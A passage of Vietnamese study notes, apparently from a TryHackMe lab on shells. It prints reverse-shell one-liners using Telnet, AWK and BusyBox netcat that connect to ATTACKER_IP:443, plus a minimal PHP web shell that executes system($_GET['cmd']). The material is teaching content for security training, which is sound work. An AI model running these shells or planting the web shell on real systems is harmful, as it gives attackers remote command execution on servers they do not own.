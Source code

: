 

###### **OTHERS**

**Telnet**

**target@tryhackme:~$ TF=$(mktemp -u); mkfifo $TF \&\& telnet ATTACKER\_IP443 0<$TF | sh 1>$TF**

Shell đảo ngược này tạo ra một đường ống có tên bằng cách sử dụng **mkfifo** và kết nối với kẻ tấn công thông qua Telnet trên IP **ATTACKER\_IP** và cổng **443**.



**AWK**

**target@tryhackme:~$ awk 'BEGIN {s = "/inet/tcp/0/ATTACKER\_IP/443"; while(42) { do{ printf "shell>" |\& s; s |\& getline c; if(c){ while ((c |\& getline) > 0) print $0 |\& s; close(c); } } while(c != "exit") close(s); }}' /dev/null**

Shell đảo ngược này sử dụng khả năng TCP tích hợp của AWK để kết nối với **ATTACKER\_IP:443**. Nó đọc các lệnh từ kẻ tấn công và thực thi chúng. Sau đó, nó gửi kết quả trở lại qua cùng một kết nối TCP .



**BusyBox**

**target@tryhackme:~$ busybox nc ATTACKER\_IP 443 -e sh**

Shell đảo ngược BusyBox này sử dụng Netcat **( nc)** để kết nối với kẻ tấn công tại  **ATTACKER\_IP:443**. Sau khi kết nối, nó sẽ thực thi /bin/sh, để lộ dòng lệnh cho kẻ tấn công.



#### **Vỏ Web**

Web Shell là một tập lệnh được viết bằng ngôn ngữ được hỗ trợ bởi máy chủ web bị xâm nhập, thực thi các lệnh thông qua chính máy chủ web đó. Web Shell thường là một tệp chứa mã thực thi lệnh và xử lý tệp. Nó có thể được ẩn bên trong ứng dụng hoặc dịch vụ web bị xâm nhập, khiến nó khó bị phát hiện và rất phổ biến đối với kẻ tấn công.

Web shell có thể được viết bằng nhiều ngôn ngữ được máy chủ web hỗ trợ, như PHP , ASP, JSP và thậm chí cả các tập lệnh CGI đơn giản.



###### **Ví dụ về PHP Web Shell**

**Chúng ta hãy xem một ví dụ về web shell PHP để hiểu cách thức hoạt động của quy trình này:**

**<?php**

**if (isset($\_GET\['cmd'])) {**

&nbsp;   \*\*system($\\\_GET\\\['cmd']);\*\*


**}**

**?>**

Shell ở trên có thể được lưu vào một tệp có phần mở rộng PHP , như , và sau đó kẻ tấn công có thể tải lên máy chủ web bằng cách khai thác các lỗ hổng như Tải tệp không giới hạn ,  Bao gồm tệp , Tiêm lệnh ,  v.v.  hoặc bằng cách truy cập trái phép vào tệp đó.  **shell.php**
